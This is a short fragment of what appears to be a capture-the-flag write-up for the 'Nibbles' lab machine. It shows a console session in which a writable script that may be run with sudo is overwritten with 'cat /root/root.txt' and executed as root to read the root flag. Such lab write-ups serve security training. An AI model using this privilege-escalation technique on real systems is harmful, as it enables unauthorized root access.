 ```console
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "cat /root/root.txt" > monitor.sh 
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat /root/root.txt

nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -u root ./monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b6d745c0dfb6457c55591efc898ef88c

```
And that's done and we have finally got the "__root.txt__"
